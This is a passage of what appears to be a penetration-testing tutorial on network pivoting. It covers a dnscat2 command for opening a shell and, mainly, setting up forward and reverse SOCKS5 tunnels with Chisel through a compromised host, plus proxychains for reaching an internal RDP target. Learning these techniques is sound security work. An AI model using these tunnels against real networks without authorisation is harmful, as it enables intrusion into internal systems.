 ```console
```

For exmaple, if we want to spawn a shell:
```console
dnscat2> window -i 1
```

## SOCKS5 Tunneling with Chisel 

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool that uses HTTP to transport data that is secured using SSH. Before we can use Chisel, we need to have it on our attack host:
```console
zero@pio$ git clone https://github.com/jpillora/chisel.git
zero@pio$ cd chisel; go build
```

Once the binary is built, we can use SCP to transfer it to the target pivot host:
```console
zero@pio$ scp chisel ubuntu@<PIVOT HOST>:~/
```

Then we can start the Chisel server/listener:
```console
ubuntu@pivot$ ./chisel server -v -p 1234 --socks5
```

We can start a client on our attack host and connect to the Chisel server:
```console
zero@pio$ ./chisel client -v <PIVOT HOST>:1234 socks
```

Now we can modify our proxychains.conf file located at `/etc/proxychains.conf`{: .filepath} and add 1080 port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel:
```console
zero@pio$ tail -f /etc/proxychains.conf  

# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now we can pivot:
```console
zero@pio$ proxychains xfreerdp /v:<TARGET> /u:<USER> /p:<PASSWORD>
```

There may be scenarios where firewall rules restrict inbound connections to our compromised target. Then we need to use Chisel in a reverse version:
```console
zero@pio$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

Then we connect from the pivot host:
```console
ubuntu@pivot$ ./chisel client -v <OUR IP>:1234 R:socks
```
